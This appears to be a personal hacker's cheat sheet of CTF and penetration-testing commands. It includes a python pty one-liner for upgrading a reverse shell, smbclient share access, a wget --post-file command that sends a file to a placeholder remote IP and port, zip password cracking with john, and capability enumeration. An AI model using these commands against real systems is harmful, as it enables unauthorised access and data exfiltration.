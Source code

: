 1)) If you get a reverse shell you know what that's look like without meterpreter or something. If you want to get a stable,interactive bash shell and if python is supported, then

> python -c "import pty; pty.spawn('/bin/bash')"

2)) Sometimes i get confused with smbclient. So this note is for mine.

> smbclient -L $IP$or$domain$

> smbclient \\\\\\\\$IP$or$domain$\\\\share

For downloading a file from remote server,

> get file

For uploading a file to remote server,

> put file

3)) When sending a POST request using the ' --post-file ' option, Wget treats the file as a binary file and will send every character in the POST request without stripping trailing newline or formfeed characters. Any other control characters in the text will also be sent as-is in the POST request.

> wget --post-file=file_to_post $desIP$:$PORT$

4)) scp (secure copy) command in Linux system is used to copy file(s) between servers in a secure way. The SCP command or secure copy allows secure transferring of files in between the local host and the remote host or between two remote hosts.

> scp <user@ip>:file-location destination

5)) If you have a password protected zip file,then you can use our useful friend john.

> zip2john file.zip > file.hash

> john file.hash

6)) Suppose you have a image file. As you are a hacker, you know what's that.You can extract a file or message from that image file.You can use binwalk for 
extracting file and steghide or zsteg for message.

> binwalk file.png

> binwalk -e file.png

7)) I don't know why linux system doesn't actually take golang as their own.Every time i have to write the following command to poke the system.

> source ~/.profile

8)) To see if capabilities are set on files in linux system, 

> getcap -r / 2>/dev/null
